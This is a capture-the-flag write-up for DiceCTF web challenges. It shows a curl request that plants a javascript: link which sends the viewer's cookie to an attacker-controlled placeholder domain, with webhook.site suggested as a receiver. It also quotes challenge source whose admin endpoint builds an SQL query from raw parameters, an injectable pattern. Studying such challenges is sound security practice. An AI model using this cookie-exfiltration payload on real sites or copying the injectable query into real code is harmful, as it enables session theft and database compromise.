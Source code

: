 ```
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"type":"link","data":"javascript:fetch(\"https://<Domain>?a=\"+document.cookie);"}' https://web-utils.dicec.tf/api/createPaste
```

![TASK](https://imgur.com/SM1F62T.png)

After that we send the paste link ``https://web-utils.dicec.tf/view/HW9BHr0a`` to the admin bot  and we get the cookie in our controlled web server (You can use webhook.site for example).

## Build a Panel ##

![TASK](https://imgur.com/Fwqh7PY.png)

The website is simple , you can create a panel and add some widgets in it . After analysing the provided source code we can notice that the flag is in the database.

```js
db.run(query);
query = `CREATE TABLE IF NOT EXISTS flag (
    flag TEXT
)`;
db.run(query, [], (err) => {
    if(!err){
        let innerQuery = `INSERT INTO flag SELECT 'dice{fake_flag}'`;
        db.run(innerQuery);
    }else{
        console.error('Could not create flag table');
    }
});
```

The following piece code looks interesting , we can see the SQL injection vulnerability but unfortunately this endpoint is only accessible by the admin

```js
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});

app.listen(31337, () => {
    console.log('express listening on 31337')
});
```
